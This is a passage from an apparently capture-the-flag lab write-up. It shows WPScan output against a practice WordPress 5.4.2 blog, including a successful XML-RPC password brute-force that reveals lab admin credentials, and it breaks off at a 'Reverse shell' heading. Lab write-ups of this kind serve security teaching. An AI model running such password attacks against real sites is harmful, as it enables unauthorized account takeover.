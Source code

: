 ```text
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://10.10.239.250/blog/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.4.2'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://10.10.239.250/blog/, Match: 'WordPress 5.4.2'

[i] The main theme could not be detected.

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:01 <=================================================> (137 / 137) 100.00% Time: 00:00:01

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - admin / my2boys                                                                                                     
Trying admin / bratz1 Time: 00:01:52 <                                                 > (3885 / 14348277)  0.02%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: admin, Password: my2boys

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Mon Oct  3 02:19:57 2022
[+] Requests Done: 4028
[+] Cached Requests: 28
[+] Data Sent: 2.041 MB
[+] Data Received: 2.311 MB
[+] Memory used: 235.387 MB
[+] Elapsed time: 00:01:59
```

| ![Wordpress](/_static/images/Screenshot from 2022-10-03 02-29-26.png) |
|:--:|
| http://internal.thm/blog |

## Reverse shell
